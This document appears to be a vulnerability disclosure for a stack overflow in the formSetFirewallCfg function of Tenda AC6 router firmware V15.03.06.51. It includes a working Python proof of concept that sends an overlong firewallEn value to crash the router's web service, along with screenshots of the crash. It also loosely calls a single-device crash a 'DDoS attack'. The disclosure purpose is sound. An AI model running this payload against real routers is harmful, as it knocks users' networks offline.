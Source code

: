# Information

**Vendor of the products:** Tenda

**Vendor's website:** [腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:** Wang Jinshuai(jinshuaiwang61@gmail.com) ，Zhao Jiangting(sta8r9@163.com)

**Affected products:** AC6 AC1200 

**Affected firmware version:**  AC6V2.0RTL_V15.03.06.51

**Firmware download address:** [AC6 v2.0 固件-腾达中国](https://www.tendacn.com/us/download/detail-3794.html)

# Overview

A **stack overflow vulnerability** in the `formSetFirewallCfg` function in AC6V2.0RTL_V15.03.06.51 allows an attacker to construct an excessively long value for the `firewallEn` variable, leading to a stack overflow and potentially resulting in a DDoS attack.

# Vulnerability details

Analyzing the `formSetFirewallCfg` function in this file reveals that when the `firewallEn` variable contains an excessively long string, such as 400 consecutive "a" characters, a stack overflow occurs. This happens because the `firewall_buf` variables lack sufficient buffer space and overflow when the value is copied using the `strcpy` function.

![image-20250313210932186](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132109553.png)

Cross-referencing the `formSetFirewallCfg` function, it can be observed that it is indeed called by the formDefineTendDa function. As a result, an attacker can cause a DDoS attack on the router.

![image-20250313210741170](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132107668.png)



# Poc

By changing the IP and token to the target router's IP and token, the attack can be successfully carried out.

```python
import requests
ip='192.168.0.34'
url = f"http://{ip}/goform/SetFirewallCfg"

headers = {
    "Host": "192.168.0.198",
    "Connection": "keep-alive",
    "Content-Length": "31",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.0.198",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.0.198/goform/WriteFacMac",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "Cookie": "password=wtfbro",
}

data = {
    "firewallEn": "a"*0x400,
}

response = requests.post(url, headers=headers, data=data)
print(response.status_code)
print(response.text)

```

# Attack Demonstration

At this point, the service is functioning normally.

![image-20250312223640285](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240094.png)

The script attack was successful, causing a segmentation fault.

![image-20250312223758005](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240127.png)

The service crashed.

![image-20250312223915278](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240425.png)